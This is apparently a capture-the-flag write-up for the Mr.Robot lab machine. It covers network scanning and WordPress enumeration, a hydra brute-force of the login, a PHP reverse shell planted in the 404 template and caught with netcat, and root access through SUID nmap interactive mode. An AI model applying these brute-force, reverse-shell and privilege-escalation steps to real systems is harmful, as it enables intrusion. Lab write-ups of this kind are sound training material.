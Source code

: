 # Mr.Robot Writeup

# Tools :
- nmap
- dirb
- hydra

## Find IP address
to find the ip address of the machine , I ran netdiscover

![alt text](https://i.imgur.com/FKeorEl.png)
`netdiscover -r 192.168.1.0/24`
IP : 192.168.53.132

## Port scan
let's run nmap to know which ports are open

![alt text](https://i.imgur.com/R2RRz6K.png)

`nmap -A 192.168.53.132`


okay now we have port 80 and 443

## website enumeration

I will run dirb in the background while browsing the website

I will run dirb in the background while browsing the website

![alt text](https://i.imgur.com/alK7sxV.png)

so I have tried this commands and nothing but videos



I think we should look at robots.txt file

![alt text](https://i.imgur.com/8Bu8b02.png)

ok ! we found the first key and another file called fsocity.dic

![alt text](https://i.imgur.com/10KCoAp.png)

after downloading the fsocity file I found it's a wordlist
let's find out its word count

![alt text](https://i.imgur.com/aVEQPG5.png)

`wc -w fsocity.dic`


858160 word ! maybe there're duplicates ?

I will sort them and remove the duplicates to find out

![alt text](https://i.imgur.com/0oJa0xI.png)

`sort fsocity.dic | uniq > wordlist.txt`


Now we are ready to bruteforce !, but first let's look at dirb result.


![alt text](https://i.imgur.com/wJZrAKT.png)

`dirb  https://192.168.53.132`

we have a wordpress running !
let's look at the login page

![alt text](https://i.imgur.com/mNozAlO.png)

after trying some credentials , I noticed it tells us whether the username is valid or not.
now I guess it's easy to bruteforce the username using hydra
but I thought about trying "elliot" the main character in the mr.robot tv show , and it's right !

![alt text](https://i.imgur.com/vYjrfck.png)

then we can bruteforce the password using hydra

![](https://i.imgur.com/fJrXxgp.png)

`hydra 192.168.53.132 -l elliot -P wordlist.txt http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=log In&testcookie=1:S=Location'`

okay we got the password **ER28-0652**

![](https://i.imgur.com/4Old6lH.png)

it's time to upload a reverse shell
I will go for php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)

**don't forget to change the ip and port in the script to your ip and the port you will listen to**

I chose to upload it in the 404.php template from appearance -> editor -> 404 template

![](https://i.imgur.com/KnlFdWD.png)

now we need to start our listener and then visit the 404.php page

![](https://i.imgur.com/a9Z0mMH.png)

`nc -lvp 1234`

now we are deamon
and I found the second flag at home/robot

![](https://i.imgur.com/Bqq02lX.png)

and there's a md5 hash !
I will use [md5 decrypt online tool](https://hashes.com/en/decrypt/hash)

![](https://i.imgur.com/8iwWeDD.png)

let's login as robot

![](https://i.imgur.com/1gQUW0q.png)

## Privilege escalation

let's find the setuid binaries

![](https://i.imgur.com/nBEqa4N.png)

`find / -user root -perm -4000 2>/dev/null`

we can run nmap !
let's find out its version

![](https://i.imgur.com/AhqMtlI.png)

`nmap --version`

with quick search we can find that this version has an interactive mode

![](https://i.imgur.com/3no9GBI.png)

`nmap --interactive`

we can spawn a shell as root !

![](https://i.imgur.com/FxLOqBX.png)

`!sh` to open a shell

finally the last flag!

![](https://i.imgur.com/uRKj91Q.png)




